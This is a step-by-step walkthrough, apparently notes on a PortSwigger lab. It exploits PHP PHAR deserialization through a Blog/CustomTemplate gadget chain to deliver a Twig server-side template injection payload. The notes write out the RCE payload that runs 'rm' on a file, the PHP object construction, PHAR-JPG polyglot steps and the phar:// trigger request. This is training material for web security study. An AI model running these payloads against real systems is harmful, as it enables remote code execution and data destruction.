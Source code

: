 
1. Access the following path and verify the content;

![](Pasted_image_20231210213254.png)

> Remember to add the ~ at the end of the endpoint;

2. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes.

3. Notice that the website uses the Twig template engine. You can use deserialization to pass in an [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) (SSTI) payload. Find a documented SSTI payload for remote code execution on Twig, and adapt it to delete Carlos's file:
    
    `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}`
4. Write a some PHP for creating a `CustomTemplate` and `Blog` containing your SSTI payload:
    
    `class CustomTemplate {} class Blog {} $object = new CustomTemplate; $blog = new Blog; $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'; $blog->user = 'user'; $object->template_file_path = $blog;`
5. Create a `PHAR-JPG` polyglot containing your PHP script. You can find several scripts for doing this online (search for "`phar jpg polyglot`"). Alternatively, you can download from PortSwigger [ready-made one](https://github.com/PortSwigger/serialization-examples/blob/master/php/phar-jpg-polyglot.jpg).
6. Upload this file as your avatar.
7. In Burp Repeater, modify the request line to deserialize your malicious avatar using a `phar://` stream as follows:
    
    `GET /cgi-bin/avatar.php?avatar=phar://wiener`

![](Pasted_image_20231210213749.png)


